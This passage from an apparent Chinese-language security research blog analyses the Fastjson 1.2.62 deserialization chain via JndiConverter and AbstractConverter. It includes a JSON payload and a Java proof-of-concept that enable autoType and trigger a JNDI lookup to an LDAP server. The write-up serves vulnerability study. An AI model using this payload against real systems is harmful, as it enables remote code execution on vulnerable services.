 我们这里可以去到 `JndiConverter` 这个类里面，看到 `toObjectImpl()` 方法确实是存在 JNDI 漏洞的。

![img](https://drun1baby.top/2022/08/13/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8704-Fastjson1-2-62-1-2-68%E7%89%88%E6%9C%AC%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/JndiLookup.png)

- 但是这个 `toObjectImpl()` 方法并不是 getter/setter 方法，也不是构造函数，我不太明白为什么会被调用，后面问了一下 Johnford 师傅，更明确了 Fastjson 漏洞利用的方式。

因为我们对 `JndiConverter` 这个类进行反序列化的时候，会自动调用它的构造函数，而它的构造函数里面调用了它的父类。所以我们反序列化的时候不仅能够调用 `JndiConverter` 这个类，还会去调用它的父类 `AbstractConverter`

然后在父类 `AbstractConverter` 中，呃，这里咋说呢；我最早是去找谁调用了 `JndiConverter#toObjectImpl()`，就找到了 `AbstractConverter#setAsText()`；也就是这里不是单纯的逆向思维，而是正向和逆向思维一起作用的。

![img](https://drun1baby.top/2022/08/13/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8704-Fastjson1-2-62-1-2-68%E7%89%88%E6%9C%AC%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/1262Chains.png)

所以这里我们的 payload 可以设置成这样

JSON

```
"{

\"@type\":\"org.apache.xbean.propertyeditor.JndiConverter\", 
\"AsText\":\"ldap://127.0.0.1:1234/ExportObject\"

}"
```

EXP 如下

JAVA

```
import com.alibaba.fastjson.JSON;  
import com.alibaba.fastjson.parser.ParserConfig;  
import org.apache.xbean.propertyeditor.JndiConverter;  
  
public class EXP_1262 {  
    public static void main(String[] args) {  
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);  
 String poc = "{\"@type\":\"org.apache.xbean.propertyeditor.JndiConverter\"," +  
                "\"AsText\":\"ldap://127.0.0.1:1234/ExportObject\"}";  
 JSON.parse(poc);  
 }  
}
```

![img](https://drun1baby.top/2022/08/13/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8704-Fastjson1-2-62-1-2-68%E7%89%88%E6%9C%AC%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/1262Success.png)

### 调试分析

- 我这里只分析开启 autoType 的，如果未开启 AutoType、未设置 expectClass 且类名不在内部白名单中，是不能恶意加载字节码的。

直接在 `CheckAutoType()` 函数上打上断点开始分析，函数位置：`com\alibaba\fastjson\parser\ParserConfig.java`

相比于之前版本调试分析时看的 `CheckAutoType()` 函数，这里新增了一些代码逻辑，这里大致说下，下面代码是判断是否调用 AutoType 相关逻辑之前的代码，说明如注释：
